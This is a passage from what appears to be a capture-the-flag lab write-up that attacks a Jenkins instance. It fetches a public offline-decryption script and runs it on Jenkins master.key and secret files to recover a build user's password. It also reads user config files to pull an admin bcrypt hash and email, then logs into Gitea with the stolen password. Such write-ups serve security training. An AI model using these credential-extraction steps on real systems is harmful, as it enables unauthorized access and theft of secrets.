 ```shell
└─$ wget https://raw.githubusercontent.com/gquere/pwn_jenkins/master/offline_decryption/jenkins_offline_decrypt.py
```

```shell
└─$ python3 jenkins_offline_decrypt.py jenkins_configuration/secrets/master.key jenkins_configuration/secrets/hudson.util.Secret jenkins_configuration/jobs/build/config.xml 
<REDACTED>
```

We get the plaintext password for the user `buildadm`.

We can also get info on the users in Jenkins. There's only one user, `admin`:

```shell
└─$ cat jenkins_configuration/users/users.xml                                                             
<?xml version='1.1' encoding='UTF-8'?>
<hudson.model.UserIdMapper>
  <version>1</version>
  <idToDirectoryNameMap class="concurrent-hash-map">
    <entry>
      <string>admin</string>
      <string>admin_8569439066427679502</string>
    </entry>
  </idToDirectoryNameMap>
</hudson.model.UserIdMapper>
```

```shell
└─$ cat jenkins_configuration/users/admin_8569439066427679502/config.xml | grep -i 'fullname\|pass\|email'
  <fullName>admin</fullName>
      <passwordHash>#jbcrypt:$2a$10$PaX<REDACTED></passwordHash>
      <emailAddress>admin@build.vl</emailAddress>
```

I couldn't crack the password hash. However we get an email: `admin@build.vl`. We can add the `build.vl` domain to `/etc/hosts`.

```shell
└─$ echo "$T build.vl" | sudo tee -a /etc/hosts                        
10.10.110.113 build.vl
```

## Gitea (as buildadm)

We can login as `buildadm` with the password we just found.

<http://build.vl:3000/user/login>
